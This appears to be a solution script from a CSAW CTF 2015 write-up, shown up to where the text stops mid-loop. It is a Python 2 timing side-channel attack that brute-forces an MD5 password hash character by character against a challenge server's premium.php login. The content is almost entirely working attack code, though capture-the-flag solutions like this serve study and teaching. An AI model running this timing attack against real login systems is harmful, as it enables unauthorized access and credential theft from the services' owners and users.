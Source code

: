 ```python
#!/usr/bin/env python
#
# CSAWCTF 2015
#
# @a: Smoke Leet Everyday
# @u: https://github.com/smokeleeteveryday
#

import requests
import time

current_milli_time = lambda: int(round(time.time() * 1000))

def do_request(username, candidate):
  negative_response = "Not Authorized"
  url = "http://54.175.3.248:8089"

  # To make (strlen($pass) == strlen($hash))
  password = candidate + "0"*(32-len(candidate))

  payload = {'username': username, 'password': password}
  start_time = current_milli_time()
  r = requests.post(url + '/premium.php', data=payload)
  end_time = current_milli_time()
  if(negative_response in r.text):
    return False, (end_time - start_time)
  else:
    return True, r.text

username = "~~FLAG~~"
password = ""

round_delay = 300
n = 3
cumulative_delay = round_delay

charset = "0123456789abcdef"

# We are dealing with MD5 hashes to 32 characters
for i in xrange(32):
  # Bogus request to compensate for jitter
  do_request(username, "")

  candidate = ""
  max_delay = 0
  for c in charset:
    # determine average response time over n requests
    t_average = 0
    for j in xrange(n):
      r, t = do_request(username, password + c)
      
      if r:
        print "[+]Got hash [%s]!" % (password + c)
        print t
        exit()
      else:
        t_average += t

    t_average /= n

    print "[*][%s] -> %d ms (average)" % (password + c, t_average)

    if((t_average >= cumulative_delay) and (t_average > max_delay)):
```